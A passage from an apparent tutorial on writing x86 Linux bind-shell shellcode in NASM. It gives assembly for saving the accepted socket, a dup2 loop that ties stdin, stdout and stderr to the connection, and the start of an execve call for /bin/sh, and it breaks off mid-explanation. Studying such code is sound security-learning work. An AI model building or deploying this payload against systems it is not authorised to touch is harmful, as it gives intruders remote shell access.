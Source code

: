 If you read the accept4 man page carefully, the RETURN VALUE section states that after this syscall, we will receive a new `int sockfd` that we will need to use in subsequent syscalls. The original `int sockfd` was stored off to the side in EDI, so we'll do that with the new one as well. 

```nasm
    xor edi, edi
    mov edi, eax
```

## Dup2 Syscall 

If we reference our C prototype, we see that the dup2 call is iterating 3 times in order to duplicate into our accepted connection the STDIN (0), STDOUT (1), and STDERR (2) file descriptors which makes the connection interactive for the user. `cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup2` gives a syscall code of 63 (`0x3f`). 

Since we're iterating through this call 3 times, we'll need to set up a loop. We can utilize ECX for this as it's known as the 'counter register.' We'll place a value of 3 into the lower part of ECX and have our loop iterate as long as the zero flag is not set with a `jnz` op code. So as long as the zero flag is not set, which is to say that ECX hasn't been decremented to zero, our code will jump back up to the beginning of the loop and execute it again. 

All that dup2 requires for an argument is the `int sockfd` which was newly created in our accept syscall and stored in EDI. 

```nasm
    mov cl, 0x3     ; putting 3 in the counter
    
    loop_dup2:      
    xor eax, eax   
    mov al, 0x3f    ; putting the syscall code into the lower part of eax
    mov ebx, edi    ; putting our new int sockfd into ebx
    dec cl          ; decrementing cl by one
    int 0x80
    
    jnz loop_dup2   ; jumping back to the top of loop_dup2 if the zero flag is not set
```

## Execve Syscall

Finally, we need to tell the program what to do once everything we've done so far is complete. In our case, we want the program to execute `/bin/sh`. 

`cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep execve` gives us 11 (`0x0b`). 

Let's clear out EAX

```nasm
    xor eax, eax
```

We will be utilizng the stack for these arguments. So we will be doing things in slightly a different order than our previous syscalls. This particular syscall requires null terminators and pointers to stack locations. Remember the stack grows from High to Low so first we need to put a terminator onto the stack.
